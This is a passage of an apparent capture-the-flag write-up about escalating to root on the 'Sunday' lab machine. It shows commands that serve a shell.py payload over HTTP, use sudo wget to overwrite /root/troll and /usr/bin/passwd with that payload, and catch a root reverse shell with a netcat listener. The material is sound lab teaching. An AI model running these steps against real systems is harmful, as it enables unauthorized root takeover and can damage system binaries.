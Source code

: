 ```

root@kali# python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.76 - - [27/Sep/2018 21:11:58] "GET /shell.py HTTP/1.0" 200 -

```

Run it with sunny:

```

sunny@sunday:~$ sudo /root/troll

```

And get callback:

```

root@kali# nc -lnvp 443
listening on [any] 443 ...
connect to [10.10.14.5] from (UNKNOWN) [10.10.10.76] 56164
root@sunday:~# id
uid=0(root) gid=0(root) groups=0(root),1(other),2(bin),3(sys),4(adm),5(uucp),6(mail),7(tty),8(lp),9(nuucp),12(daemon)

```

This is a bit trickier to pull off than it one might think at first, if you aren’t quick *and* lucky. That’s because of the `overwrite` script resetting `troll` to it’s original self every 5 seconds. Check out the [Beyond Root](#overwrite) section where I’ll look at detecting this. But for the sake of making it work, have the windows close together and run `wget` as sammy immediately followed by `troll` as sunny.

Here’s how I did it, with SimpleHTTPServer in the top window, then sammy SSH, then sunny SSH, and then nc listener to catch root shell:

![1538099855160](https://0xdfimages.gitlab.io/img/sunday-troll-priv.gif)

#### Overwrite Different SUID Binary

If catching troll before it reverts was too much, it’s certainly easier to just overwrite a different set uid binary. Just make a backup copy of the original first, so you can put it back after exploiting. For example, `/usr/bin/passwd`:

```

sammy@sunday:~$ cp /usr/bin/passwd /tmp
sammy@sunday:~$ ls -la /usr/bin/passwd
-r-sr-sr-x 1 root sys 31584 2009-05-14 21:18 /usr/bin/passwd
sammy@sunday:~$ sudo wget -O /usr/bin/passwd http://10.10.14.5/shell.py
--02:09:34--  http://10.10.14.5/shell.py
           => `/usr/bin/passwd'
Connecting to 10.10.14.5:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 246 [application/octet-stream]

100%[==========================================================================================================================================================================================================>] 246           --.--K/s

02:09:34 (69.91 KB/s) - `/usr/bin/passwd' saved [246/246]

sammy@sunday:~$ passwd

```
